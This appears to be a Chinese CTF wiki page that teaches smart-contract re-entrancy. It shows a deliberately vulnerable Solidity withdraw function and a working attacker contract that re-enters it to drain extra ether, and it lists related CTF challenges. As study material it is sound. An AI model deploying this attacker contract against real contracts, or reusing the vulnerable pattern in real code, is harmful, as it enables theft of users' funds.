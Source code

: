 # Re-Entrancy

重入攻击是智能合约中的经典攻击。以太坊 The DAO 项目遭受的重入攻击直接导致了以太坊（ETH）和以太坊经典（ETC）的硬分叉。

## 原理
假设有一个银行合约实现了以下取款功能，在 `balanceOf[msg.sender]` 充足时，合约会转账相应数量的以太币给调用者，并且将 `balanceOf` 减去相应值：

```solidity
contract Bank {
    mapping(address => uint256) public balanceOf;
    ...
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);
        msg.sender.call.value(amount)();
        balanceOf[msg.sender] -= amount;
    }
}
```

这个实现的问题在于，“先给钱后记账”。在以太坊中，合约的调用者可以是另一个智能合约，转账时收款合约的 fallback 函数会被调用。若 fallback 函数内再一次调用了对方的 withdraw 函数，由于此时 `balanceOf` 尚未减少，require 的条件仍然满足，导致可以再次取款。需要注意的是，fallback 函数需要限制重入的次数，否则会因为无限地循环调用，导致 gas 不足。假设攻击合约的存款有 1 ether，可以如下实现取出 2 ether：

```solidity
contract Hacker {
    bool status = false;
    Bank b;

    constructor(address addr) public {
        b = Bank(addr);
    }

    function hack() public {
        b.withdraw(1 ether);
    }

    function() public payable {
        if (!status) {
            status = true;
            b.withdraw(1 ether);
        }
    }
}
```

此外有几个注意点：

- 目标合约使用 call 发送以太币时，默认提供所有剩余 gas；call 操作改为对提款者合约的调用亦可实现攻击；但如果使用 transfer 或者 send 来发送以太币，只有 2300 gas 供攻击合约使用，是不足以完成重入攻击的。
- 执行重入攻击前，需要确认目标合约有足够的以太币来向我们多次转账。如果目标合约没有 payable 的 fallback 函数，则需要新建一个合约，通过 `selfdestruct` 自毁强制转账。
- 上述 fallback 实现中，先改写 `status` 后重入。如果反过来则还是会无限循环调用，这和重入漏洞的道理是一致的。

重入漏洞与整数下溢出漏洞关联密切。在上述攻击后，攻击合约的存款由 1 ether 变为 -1 ether。但注意到存款由 uint256 保存，负数实际上保存为一个极大的正数，后续攻击合约可以继续使用这个大数额的存款。

## 题目

### 强网杯 2019
- 题目名称 babybank

### N1CTF 2019
- 题目名称 h4ck

!!! note
    注：题目附件相关内容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 仓库寻找。

